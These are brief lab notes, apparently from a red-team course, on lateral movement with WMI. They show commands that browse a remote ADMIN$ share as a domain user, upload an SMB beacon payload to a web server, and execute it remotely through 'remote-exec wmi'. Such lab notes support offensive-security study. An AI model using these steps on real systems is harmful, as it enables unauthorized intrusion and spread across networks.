 `WMI` is a good one that should be tried as well however there are more steps than simply using `psexec` or `winrm` 

remotely `cd \\web.dev.cyberbotic.io\ADMIN$` from `DEV\jking on WKSTN-2` 
![[Pasted image 20231128174329.png]]
check to ensure we are in the correct location
![[Pasted image 20231128174402.png]]
`upload C:\Payloads\smb_x64.exe` to `\\web.dev.cyberbotic.io
![[Pasted image 20231128174837.png]]
remote execute the payload `remote-exec wmi web.dev.cyberbotic.io C:\Windows\smb_x64.exe`